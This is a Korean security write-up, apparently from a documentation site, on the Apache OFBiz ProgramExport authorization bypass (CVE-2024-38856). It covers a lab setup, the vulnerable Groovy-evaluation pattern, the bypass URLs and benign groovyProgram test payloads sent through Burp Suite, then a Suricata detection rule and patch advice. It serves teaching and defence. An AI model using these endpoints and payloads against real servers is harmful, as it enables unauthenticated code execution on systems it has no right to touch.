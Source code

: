 ```yaml
---
layout: default
title: cve-2024-38856
category: "Apache"
nav_order: 3
parent: cve
---
```


# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일(ProgramExport View)에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

## Apache OFBiz 18.12.04 는 Gradle 5.0.0 이상 버전을 사용
cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

## 주의 사항 : localhost 가 아닌, 가상환경에서 서버 구동 시, 해당 가상환경 ip를 설정에 등록
vi /usr/local/src/apache-ofbiz-18.12.04/framework/security/config/security.properties
## 옵션 변경
protect-view.preprocessor=
## 활성화 옵션
default.error.response.view=none:
## 아래에 추가
host-headers-allowed=localhost,192.168.56.1
block-external-host-requests=false
allow-program-export=true

## Apache OFBiz 18.12.04 실행
cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew ofbiz 

## ----- HomePage ----- ##
접속 : https://ip:8443/myportal/control/main
id : admin
password : ofbiz
```

<br>구현 된 홈페이지 (192.168.56.1:8443)

![](../../assets/images/cve/cve-2024-38856/homepage.PNG)

---

## 1.5 주요 내용
CVE-2024-38856의 핵심은 ProgramExport 엔드포인트가 인증 없이 접근 가능한 취약점
<br>이 엔드포인트는 외부에서 전달된 데이터를 Groovy Script로 실행할 수 있는 구조를 가지고 있어, 공격자가 특정 파라미터를 통해 코드 실행

{: .note-title }
> **ProgramExport**는 Apache OFBiz Framework에서 사용하는 Web Tools 중 하나로, 특정 기능이나 데이터를 처리 및 출력하는 데 사용한다. 이 엔드포인트는 주로 시스템 관리자가 다양한 데이터를 내보내거나 특정 프로그램을 통해 데이터 처리를 수행할 때 사용

<br> 

```java
String groovyScript = request.getParameter("groovyProgram");
GroovyShell shell = new GroovyShell();
shell.evaluate(groovyScript);
```

위 코드는 groovyProgram이라는 HTTP 요청 파라미터에 들어온 값을 GroovyShell로 실행하는 코드 <br>
입력된 값에 대한 검증이 없어 공격자가 악성 코드를 groovyProgram 파라미터에 넣으면 해당 코드가 서버에서 실행되어 시스템 명령어를 실행하거나 데이터를 유출

---

## 1.6 공격 재현
Tool : Burp Suite v2024

## ProgramExport 엔드포인트 URL 접근
{: .no_toc }

Apache OFBiz에서 악용될 수 있는 URL은 TestService, view, showDateTime, main, forgotPassword
- example1 : https://192.168.56.1:8443/webtools/control/TestService/ProgramExport
- example2 : https://192.168.56.1:8443/webtools/control/view/ProgramExport
- example3 : https://192.168.56.1:8443/webtools/control/showDateTime/ProgramExport
- example4 : https://192.168.56.1:8443/webtools/control/main/ProgramExport
- example5 : https://192.168.56.1:8443/webtools/control/forgotPassword/ProgramExport

![](../../assets/images/cve/cve-2024-38856/TestService.png)


## Burp Suite 사용하여 groovyProgram에 파라미터값 전달
{: .no_toc }

Burp Suite를 활용하여 payload에 groovyProgram 파라미터 값을 삽입 후 테스트 <br>
groovyProgram=throw new Exception('CVE-2024-38856 TEST by Bite98');

![](../../assets/images/cve/cve-2024-38856/print_cve.png) <br>


테스트 확인 후, 시스템 정보()를 출력하는 파라미터값을 넣어 공격 진행
- groovyProgram=throw new Exception("Thread State: " + Thread.currentThread().getState());
- groovyProgram=throw%20new%20Exception%28%22Thread%20State%3A%20%22%20%2B%20Thread.currentThread%28%29.getState%28%29%29%3B

{: .note-title }
> **Thread.currentThread().getState()** 함수는 현재 스레드의 상태를 확인하여 예외를 통해 정보를 반환

![](../../assets/images/cve/cve-2024-38856/print_thread.png)

---

## 대응 패턴 적용
{: .no_toc }

- 신규 ET 패턴 1건

```c
alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache OFBiz 버전 18.12.14 이상으로 업데이트
- ProgramExport 엔드포인트 인증 설정
- groovyProgram과 같은 파라미터가 코드 실행에 사용되지 않도록 검증 로직 추가

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html

